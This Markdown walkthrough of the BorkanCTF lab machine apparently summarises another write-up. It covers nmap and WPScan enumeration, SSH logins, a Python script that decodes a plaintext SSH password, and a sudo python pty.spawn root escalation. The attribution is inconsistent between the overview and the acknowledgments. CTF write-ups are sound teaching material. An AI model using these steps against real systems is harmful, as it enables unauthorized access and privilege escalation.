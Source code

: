 # BorkanCTF Walkthrough

## Overview
This document is a detailed walkthrough of the BorkanCTF, a Capture The Flag (CTF) challenge, authored by Belal Hamed. The walkthrough covers network scanning, web enumeration, database exploration, password cracking, and privilege escalation to achieve root access on the target system.

---

## Initial Reconnaissance

### Network Scanning with Nmap
The CTF begins with a network scan using Nmap to identify open ports and services on the target IP `192.168.1.14`.

```bash
nmap -sV 192.168.1.14
```

**Results:**
- **Port 22/tcp**: Open, running OpenSSH 6.7p1 Debian 5+deb8u6.
- **Port 80/tcp**: Open, running Apache httpd 2.4.10.
- **Port 3306/tcp**: Open, running MySQL 5.5.60-0+deb8u1.

Three open ports were identified, providing potential entry points for further exploration.

### Web Enumeration
Visiting `http://192.168.1.14` revealed no significant content. However, further exploration led to a WordPress installation at `http://192.168.1.14/wordpress/`.

#### WPScan for WordPress Enumeration
WPScan was used to enumerate the WordPress site:

```bash
wpscan --url http://192.168.1.14/wordpress/ --enumerate u
```

**Findings:**
- **WordPress Version**: 4.8.25 (Outdated, released on 2024-06-24).
- **Users Identified**:
  - `steven`
  - `michael`
- **Vulnerabilities**:
  - XML-RPC Pingback API exposed.
  - WP-Cron enabled, potentially vulnerable to DDoS.
  - Readme file accessible at `http://192.168.1.14/wordpress/readme.html`.

The identification of two users, `steven` and `michael`, provided targets for credential-based attacks.

---

## Gaining Initial Access

### SSH Attempt
An attempt to connect via SSH to `192.168.1.14` using the username `michael` was made. The password for `michael` was already known (not specified in the document), allowing successful login.

```bash
ssh michael@192.168.1.14
```

### Database Exploration
After gaining access, the MySQL database was explored:

```bash
mysql -u root -p
```

**Commands Executed:**
```sql
SHOW DATABASES;
```

The database `wordpress` was identified. Further inspection of the `users` table revealed a password hash for the user `steven`. However, attempts to crack this hash were unsuccessful, indicating it was either invalid or not relevant for `steven`'s SSH password.

---

## Password Decryption

### Discovering Steven's Password
The document includes a Python script that encrypts a string using a combination of Caesar cipher, XOR cipher, and text shifting, with the output encoded in Base64. The correct Base64 output was provided:

```
HRICGUFBSHYZUkhjH1tNSHoc5BCGSHOdRBxTehxIfR1TYR1aHEh5RRw
```

To retrieve `steven`'s password, a reverse decryption script was used:

```python
import base64

# Define constants
CORRECT_OUTPUT_BASE64 = "HRICGUFBSHYZUkhjH1tNSHoc5BCGSHOdRBxTehxIfR1TYR1aHEh5RRw"
XOR_KEY = 42
SHIFT_AMOUNT = 3

def caesar_cipher_reverse(text, shift):
    decrypted = ''.join(chr((ord(char) - shift) % 256) for char in text)
    return decrypted

def xor_cipher_reverse(text, key):
    decrypted = ''.join(chr(ord(char) ^ key) for char in text)
    return decrypted

def shift_text_reverse(text, shift_amount):
    shift_amount = shift_amount % len(text)
    decrypted = text[shift_amount:] + text[:shift_amount]
    return decrypted

def decrypt_encrypted_data(encrypted_base64):
    encrypted_input = base64.b64decode(encrypted_base64).decode()
    step1 = shift_text_reverse(encrypted_input, SHIFT_AMOUNT)
    step2 = xor_cipher_reverse(step1, XOR_KEY)
    final_decrypted = caesar_cipher_reverse(step2, SHIFT_AMOUNT)
    return final_decrypted

def main():
    decrypted_data = decrypt_encrypted_data(CORRECT_OUTPUT_BASE64)
    print("Decrypted_data:", decrypted_data)

if __name__ == "__main__":
    main()
```

**Output:**
```
Decrypted_data: OhhYou_F1nd_M3:)_T4k3_M3_TO_HOm3_Pl3453
```

This decrypted string was `steven`'s SSH password.

### SSH Access as Steven
Using the decrypted password, SSH access was gained as `steven`:

```bash
ssh steven@192.168.1.14
```

Password: `OhhYou_F1nd_M3:)_T4k3_M3_TO_HOm3_Pl3453`

---

## Privilege Escalation

### Checking Sudo Privileges
Once logged in as `steven`, the `sudo -l` command was used to check for sudo privileges:

```bash
sudo -l
```

**Result:**
- `steven` could run `python` as a sudoer without a password.

### Exploiting Python for Root Access
Using a privilege escalation technique from GTFOBins, a Python command was executed to spawn a root shell:

```bash
sudo python -c 'import pty;pty.spawn("/bin/bash")'
```

This command successfully launched a bash shell with root privileges:

```
root@Borkan:/home/steven#
```

### Retrieving the Root Flag
The root flag was found in `rootFlag.txt`:

```bash
cat rootFlag.txt
```

**Flag:**
```
flag5{Borkan"."s_off_NOw_Thanks_U_Sav3d_The_Gl0bE}
```

---

## Conclusion
The BorkanCTF was successfully completed by:
1. Scanning the network to identify open ports.
2. Enumerating a WordPress site to find usernames.
3. Gaining initial SSH access as `michael`.
4. Decrypting `steven`'s password using a provided encryption script.
5. Logging in as `steven` and escalating privileges to root using a Python exploit.
6. Retrieving the final flag.

**Acknowledgments:**
- The CTF creator, reachable at `@mccannw` on Twitter or via `wjmccann.github.io`.

This walkthrough demonstrates a comprehensive approach to solving a Boot2Root VM, combining network scanning, web enumeration, password cracking, and privilege escalation techniques.
